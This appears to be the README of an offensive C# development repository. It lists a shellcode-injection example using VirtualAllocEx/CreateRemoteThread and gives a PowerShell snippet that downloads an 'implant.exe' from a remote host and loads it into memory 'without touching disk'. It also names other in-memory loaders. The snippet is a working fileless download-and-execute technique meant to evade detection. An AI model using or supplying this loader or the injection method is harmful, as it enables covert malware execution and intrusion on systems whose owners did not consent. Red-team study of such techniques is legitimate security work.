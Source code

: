<p align="center">
  <img src="../_resources/img/0002.png">
</p>

# OffsecDev: C#

### Table of Contents
  * [Examples](#examples)
  * [Execution](#execution)

## Examples
| File                                       | Description |
|--------------------------------------------| ----------- |
| [classic_injection.cs](src/classic_injection.cs) | Inject shellcode into a remote process using ```VirtualAllocEx```/```CreateRemoteThread```. |

## Execution
* Use the PowerShell code below to Load .Net assemblies without touching disk:
```
$data = (New-Object System.Net.WebClient).DownloadData('http://10.0.0.1/implant.exe')
[System.Reflection.Assembly]::Load($data)
[<program_name>.Program]::Main(<parameters>)
```

* Alternatively, projects such as [EAPrimer](https://github.com/m8r0wn/EAPrimer) and [NetLoader](https://github.com/Flangvik/NetLoader) can be used as well. 
